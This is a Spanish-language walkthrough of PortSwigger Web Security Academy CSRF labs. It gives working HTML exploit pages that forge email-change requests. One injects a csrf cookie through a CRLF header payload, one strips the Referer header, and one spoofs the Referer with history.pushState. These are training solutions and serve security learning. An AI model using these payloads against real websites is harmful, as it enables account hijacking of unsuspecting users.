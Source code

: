 #### Solución:

```html
<form method="POST" action="https://acfa1f351e61acce80a95395003a0017.web-security-academy.net/email/change-email">
     <input type="hidden" name="email" value="algo@mail.com">
     <input type="hidden" name="csrf" value="algo">
</form>
<img src="https://acfa1f351e61acce80a95395003a0017.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=algo" onerror="document.forms[0].submit()">
```

### [CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)

Autenticados en el laboratorio, ejecutamos la funcionalidad Change Email interceptando la request con burpsuite, y poniendo atención en el header Referer, notamos que si lo cambiamos, la request es rechazada, pero si la borramos, vuelve a ser aceptada. Para suprimir el header Referer incluimos la primera línea del siguiente exploit.

#### Solución:

```html
<meta name="referrer" content="no-referrer">
<form method="POST" action="https://ac7e1f411e7ba82f8084503a004700a7.web-security-academy.net/email/change-email">
     <input type="hidden" name="email" value="algo@mail.com">
</form>
<script>
      document.forms[0].submit();
</script>
```

### [CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)

Analaizando la request de Change Email, vemos que solo acepta urls del dominio del laboratorio.
Similar al laboratorio anterior, solo que esta vez alteramos el header Referer con la primera línea del script del siguiente exploit.

#### Solución:

```html
<form method="POST" action="https://acb91f5f1e79c23180f5059000d40092.web-security-academy.net/email/change-email">
    <input type="hidden" name="email" value="algo@mail.com">
</form>
<script>
    history.pushState("", "", "/?acb91f5f1e79c23180f5059000d40092.web-security-academy.net");
    document.forms[0].submit();
</script>
```

---
